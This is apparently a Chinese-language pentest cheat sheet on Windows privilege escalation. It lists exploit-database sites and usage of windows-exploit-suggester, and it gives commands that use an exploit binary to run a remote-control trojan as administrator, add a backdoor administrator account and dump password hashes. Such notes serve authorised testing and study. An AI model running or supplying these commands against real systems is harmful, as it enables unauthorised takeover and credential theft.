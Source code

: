   * 搜索漏洞常用网站
    ```
    https://exploit-db.com
    https://packetstormsecurity.com
    https://packetstormsecurity.com/search/?q=ms15-057
    https://www.securityfocus.com/
    https://www.securityfocus.com/bid
    http://1337day.com
    http://0day.today
    http://seclists.org/fulldisclosure
    http://exploitsearch.net
    http://www.securiteam.com
    http://metasploit.com/modules
    http://securityreason.com
    https://cxsecurity.com/exploit
    http://securitytracker.com
    ```
  
* **提权辅助工具windows-exploit-suggester**
  * 使用方法：
    ```bash
    将服务器执行systeminfo > a.txt
    windows-exploit-suggester.py --database 2019-01-01-mssb.xls --systeminfo a.txt
    windows-exploit-suggester.py --audit --database 2019-01-01-mssb.xls --systeminfo a.txt
    windows-exploit-suggester.py --audit  -l --database 2019-01-01-mssb.xls --systeminfo a.txt
    ```
  
* **溢出提权**
  * 方法：
    ```cmd
    找到未打补丁的漏洞编号
    poc.exe muma.exe   以管理员身份运行远控木马
    ```
    ```cmd
    poc.exe “whoami”查看执行身份权限
    poc.exe “net user x 123.com /add”
    poc.exe “net localgroup administrators x /add”
    poc.exe “getpass.exe” 获取hash
    ```




### 【windows自动任务】






&nbsp;


## 应用程序提权

### 【常见服务程序和中间件】
